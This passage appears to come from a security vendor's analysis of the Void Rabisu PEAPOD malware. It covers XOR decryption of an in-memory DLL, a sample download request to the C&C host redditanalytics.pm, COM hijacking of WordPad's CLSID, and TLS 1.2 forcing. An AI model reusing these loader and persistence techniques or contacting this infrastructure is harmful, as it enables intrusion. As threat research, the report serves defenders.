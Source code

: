“Mozilla/5.0 (Windows NT 10.0; Win64; x64; Xbox; Xbox One) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edge/44.18363.8131”
 The file is an XOR-encrypted PE file:








Figure 5. XOR-encrypted, second stage payload





The downloaded file can be decrypted with the following pseudocode:
for (i=0; i<len; i++)
                 data[i] = data[i] ^ 0xf0 * i
The decrypted file is a 64-bit DLL that exports a CPLInit() function. The first stage downloader then loads this DLL to memory and calls this function. It’s important to highlight that this DLL never touches the disk. In other words, its download, decryption, and execution routines all happen in runtime in memory.
Payload setup
The DLL that runs from memory is internally called trymenow.dll. It reaches out to the legitimate online service worldtimeapi.org to obtain a unique timestamp for the current date and time in Unix Epoch format. This is later used to seed a calculation algorithm that generates the URL path for the next request.
The path matches the regular expression [12]/[0-9]{9}, where the first part before the slash represents what component the downloader is requesting. The next part after the slash is possibly an identifier, as it is consistent between requests. The URL is encoded using the Base64 format before the request is sent to redditanalytics[.]
pm in order to download the third stage component. The following is a sample request:
GET https://redditanalytics.pm/Mi8xMzI0NTY3ODk=
Accept:           */*
 UA-CPU:           AMD64
 Accept-Encoding:  gzip, deflate
 User-Agent:       Mozilla/5.0 (iPhone; CPU iPhone OS 16_5_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.0 EdgiOS/114.1823.67 Mobile/15E148 Safari/605.1.15
 Host:             redditanalytics.pm
 Connection:       Keep-Alive
On the server side, the URL path is decoded. If everything is correct, the server replies with another XOR-encrypted file that will be decrypted and stored at %PUBLIC%\AccountPictures\Defender\Security.dll, which is the DLL used for COM hijacking. This time, Void Rabisu chose to hijack CLSID {F5078F32-C551-11D3-89B9-0000F81FE221}, which is used by the WordPad application
The next step involves reaching out to worldtimeapi.org again to get an updated timestamp and download another component from redditanalytics[.]pm, which is the component that talks to the C&C server netstaticsinformation[.]com. (This is the network component from our previous blog entry.)
After both payloads are downloaded, WordPad is launched, causing the first payload to execute via COM hijacking.
C&C server communication
The PEAPOD samples we analyzed force WinHTTP functions to use TLS 1.2 instead of the default version chosen by the operating system. A C&C server for a previous campaign using the legitimate PaperCut software as a lure checked the TLS version of a client HTTP request and would not respond with a payload if the request was not conformant. However, the C&C server for the campaign targeting WPL Summit 2023 attendees responded as expected, regardless of the TLS version negotiation used to initiate the communication.
The malware first prepares the right flag for later use with WinHttpSetOption(). Afterward, it creates an HTTP session using Microsoft Edge 1.0 as the User-Agent string. However, before anything is sent to the server, the connection is set to use TLS 1.2.
We checked how different Windows versions treat SSL/TLS usage, which we summarize in the following table:
